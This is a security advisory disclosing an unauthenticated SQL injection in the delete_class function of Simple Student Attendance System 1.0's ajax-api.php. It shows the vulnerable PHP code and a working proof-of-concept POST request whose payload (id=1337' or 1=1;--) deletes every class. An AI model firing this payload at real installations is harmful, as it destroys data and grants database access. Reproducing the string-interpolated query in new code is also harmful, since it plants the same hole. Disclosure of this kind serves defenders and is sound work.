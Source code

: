 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [Simple Student Attendance System using PHP and MySQL 1.0](https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html) <br/>

**Affected Version**:
> Simple Student Attendance System using PHP and MySQL 1.0

**Affected Site Page**: 
> /ajax-api.php<br/>

**Affected Code**: 
> </ajax-api.php [function delete_class()]> <br/>

```php
public function delete_class(){
    extract($_POST);
    $delete = $this->conn->query("DELETE FROM `class_tbl` where `id` = '{$id}'");
    if($delete){
        $_SESSION['flashdata'] = [ 'type' => 'success', 'msg' => "Class has been deleted successfully!" ];
        return [ "status" => "success" ];
    }else{
        $_SESSION['flashdata'] = [ 'type' => 'danger', 'msg' => "Class has failed to deleted due to unknown reason!" ];
        return [ "status" => "error", "Class has failed to deleted!" ];
    }
}
```

**Related CWE:**
> [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

## **Details:**
> Allows SQL Injection by placing untrusted code executing a query on the backend, for the POC all classes are deleted without any authentication

![image](https://github.com/smurf-reigz/security/assets/48426940/b74a2c69-b612-4b7d-a61d-04e2320e2173)

```http 
POST /ajax-api.php?action=delete_class HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 19
Connection: close

id=1337'+or+1=1;--+
```

> DELETES all classes without authentication.

![image](https://github.com/smurf-reigz/security/assets/48426940/49ac0660-57e5-4cb0-9c4c-288b215d4ccd)


## **Vulnerability Impact:**
> As an attacker, can do the following:
> 1. Run any database query and have same permission as the web application (default for this Web Application is root).
